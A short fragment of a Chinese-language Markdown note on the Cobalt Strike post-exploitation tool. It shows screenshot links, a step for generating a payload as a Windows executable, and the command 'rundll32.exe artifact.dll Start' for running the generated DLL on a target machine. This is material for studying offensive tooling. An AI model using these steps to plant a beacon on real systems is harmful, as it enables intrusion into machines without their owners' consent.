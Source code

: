 ![](../../../assets/img/Security/安全工具/CobaltStrike/18.png)

生成 payload 选择 Packages>Windows Executable

![](../../../assets/img/Security/安全工具/CobaltStrike/19.png)

在目标机器上执行 dll
```bash
rundll32.exe artifact.dll Start
```
